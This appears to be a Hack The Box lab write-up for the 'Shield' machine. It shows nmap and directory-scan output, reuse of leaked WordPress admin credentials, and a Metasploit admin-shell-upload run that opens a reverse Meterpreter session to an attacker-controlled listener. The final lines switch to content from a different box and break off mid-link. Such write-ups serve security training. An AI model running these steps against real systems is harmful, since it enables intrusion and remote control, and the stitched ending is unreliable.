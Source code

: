 ## --------->> Shield <<----------

// First scanning with nmap

    $ nmap -sV -A -Pn 10.10.10.29 -p-
    Nmap scan report for 10.10.10.29
    Host is up (0.11s latency).
    Not shown: 65533 filtered ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    3306/tcp open  mysql   MySQL (unauthorized)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Nvigating to http://10.10.10.29/ didnt give us much 
// execpt the fact its Windows IIS server(what we already know from nmap)

// lets search some potential directories with feroxbuster

    $ ./feroxbuster -u http://10.10.10.29/ -t 150

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.29/
     🚀  Threads               │ 150
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    301        2l       10w      152c http://10.10.10.29/wordpress
    301        2l       10w      161c http://10.10.10.29/wordpress/wp-admin
    301        2l       10w      163c http://10.10.10.29/wordpress/wp-content
    301        2l       10w      164c http://10.10.10.29/wordpress/wp-includes
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-content/themes
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/plugins
    301        2l       10w      167c http://10.10.10.29/wordpress/wp-includes/js
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/images
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-includes/css
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/uploads
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/blocks
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-content/upgrade
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-includes/fonts
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-admin/includes
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-admin/images
    301        2l       10w      164c http://10.10.10.29/wordpress/wp-admin/js
    301        2l       10w      171c http://10.10.10.29/wordpress/wp-includes/Images
    301        2l       10w      177c http://10.10.10.29/wordpress/wp-includes/images/media
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-includes/CSS
    301        2l       10w      174c http://10.10.10.29/wordpress/wp-includes/customize
    301        2l       10w      166c http://10.10.10.29/wordpress/wp-admin/user
    301        2l       10w      165c http://10.10.10.29/wordpress/wp-admin/css
    301        2l       10w      170c http://10.10.10.29/wordpress/wp-content/Themes
    301        2l       10w      172c http://10.10.10.29/wordpress/wp-includes/widgets
    301        2l       10w      168c http://10.10.10.29/wordpress/wp-admin/Images
    301        2l       10w      169c http://10.10.10.29/wordpress/wp-includes/text
    301        2l       10w      167c http://10.10.10.29/wordpress/wp-includes/JS
    301        2l       10w      172c http://10.10.10.29/wordpress/wp-includes/js/dist

// i tried another tool (dirsearch) 

    $ python3 dirsearch.py -u http://10.10.10.29/ -t 200

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 200 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.29/_21-07-31_21-35-35.txt

    Error Log: /home/kali/Desktop/Tools/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-07-31_21-35-35.log

    Target: http://10.10.10.29/

    [21:35:36] Starting: 
    [21:35:39] 403 -  312B  - /%2e%2e//google.com
    [21:35:57] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
    [21:35:59] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
    [21:36:53] 200 -    3KB - /wordpress/wp-login.php
    [21:36:55] 200 -   24KB - /wordpress/

// its seems we have wordpress CMS on the server and login page to Wordpress at http://10.10.10.29/wordpress/wp-login.php
// since we have credentials of admin:P@s5w0rd! from last box(Vaccine) lets try it using MetaSploit

    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password P@s5w0rd!
    password => P@s5w0rd!
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
    username => admin
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 10.10.10.29
    rhosts => 10.10.10.29
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
    targeturi => /wordpress
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.7
    lhost => 10.10.16.7
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 1444
    lport => 1444
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

    [*] Started reverse TCP handler on 10.10.16.7:1444 
    [*] Authenticating with WordPress using admin:P@s5w0rd!...
    [+] Authenticated with WordPress
    [*] Preparing payload...
    [*] Uploading payload...
    [*] Executing the payload at /wordpress/wp-content/plugins/URXgzTZVXX/HTaruRzgbG.php...
    [*] Sending stage (39282 bytes) to 10.10.10.29
    [*] Meterpreter session 1 opened (10.10.16.7:1444 -> 10.10.10.29:49688) at 2021-07-31 21:16:41 +0000
    [!] This exploit may require manual cleanup of 'HTaruRzgbG.php' on the target
    [!] This exploit may require manual cleanup of 'URXgzTZVXX.php' on the target
    [!] This exploit may require manual cleanup of '../URXgzTZVXX' on the target

    meterpreter > whoami
    [-] Unknown command: whoami
    meterpreter > getuid
    [-] Error running command getuid: Rex::TimeoutError Operation timed out.
    meterpreter > dir
    [-] Error running command dir: Rex::TimeoutError Operation timed out.
    meterpreter > pwd
    [-] Error running command pwd: Rex::TimeoutError Operation timed out.
    meterpreter > cd C:/Users
    [-] Error running command cd: Rex::TimeoutError Operation timed out.
    meterpreter > exit -y
    [*] Shutting down Meterpreter...

// for some reason metasploit didnt get me a stable shell to work ...
// miving on!, Navigating to http://10.10.10.29/wordpress/wp-login.php
// we ebale to connect with credentials admin:P@s5w0rd!

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shield/1.png)



Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_11_02_
